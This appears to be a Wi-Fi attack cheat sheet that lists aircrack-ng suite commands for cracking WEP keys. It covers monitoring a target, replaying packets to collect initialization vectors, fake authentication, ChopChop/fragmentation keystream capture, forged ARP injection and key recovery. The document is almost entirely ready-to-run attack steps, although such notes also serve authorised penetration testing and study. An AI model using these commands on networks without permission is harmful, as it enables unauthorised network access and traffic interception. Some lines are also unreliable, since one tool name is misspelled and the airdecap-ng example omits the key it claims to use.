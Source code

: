 -> Monitor clients connected to a specific Wi-Fi network and capture packets to a file for later analysis
```bash
airodump-ng --essid <ssid> --channel <channel> wlan0 -w wep
```

-> Replay packets within the Wi-Fi network to obtain several initialization vectors that will facilitate breaking the key (wait until a good amount of packages, example: 80 thousand packages on #Data)
```bash
aireplay-ng -3 -b <bssid> -h <client_mac> <interface>
```

-> Cracking to discover the key
```bash
aircrack-ng -a 1 wep-01.cap 
```

#### Other
-> Decrypt a packet file using a WEP key in hexadecimal
```bash
airdecap-ng -w wep-01.cap 
```

### WEP OPN Attack without connected clients
-> Obtain ESSID and target channel by passively monitoring Wi-Fi networks
```bash
airodump-ng wlan0
```

-> Monitor clients connected to the chosen Wi-Fi network
```bash
airodump-ng wlan0 --bssid <bssid> --channel <channel> -w wep
```

-> Create a fake client to carry out the attack through this fake authentication
```bash
aireplay-ng -1 60000000 -a <bssid> wlan0 -e <ssid>
```

-> Explore fragmentation or ChopChop to capture packets (dump plaintext in .cap and keystream in .xor)
```bash
aireplay-ng -4 -a <bssid> -h <fake_client_mac> wlan0
```

-> Forge ARP packet to send to the fake client, increasing the IV's and thus being able to break it
```bash
packet-forge-ng -0 -a <bssid> -k <source_IP> -l <destination_IP> -h <fake_client_mac> -y <xor_file> -w arp_request
```

-> Send forged ARP packet repeatedly to the fake authentication client (expect up to 15/20 thousand packets in #Data)
```bash
aireplay-ng -2 -r arp_request wlan0
```
